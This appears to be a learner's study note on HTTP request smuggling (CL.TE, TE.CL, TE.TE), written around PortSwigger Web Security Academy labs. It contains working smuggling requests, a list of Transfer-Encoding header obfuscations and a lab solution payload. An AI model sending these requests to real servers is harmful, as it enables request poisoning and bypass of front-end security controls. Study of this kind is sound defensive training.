 
Request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers:

-   CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
-   TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
-   TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

## CL. TE

Here, the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header. We can perform a simple HTTP request smuggling attack as follows:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

## TE. CL

Here, the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. We can perform a simple HTTP request smuggling attack as follows:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

## TE. TE

Here, the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

Lab solution:

```http
POST / HTTP/1.1
Host: 0a1900e504179bc9c2c0f2b500b400e4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

12
GPOST / HTTP/1.1

0

```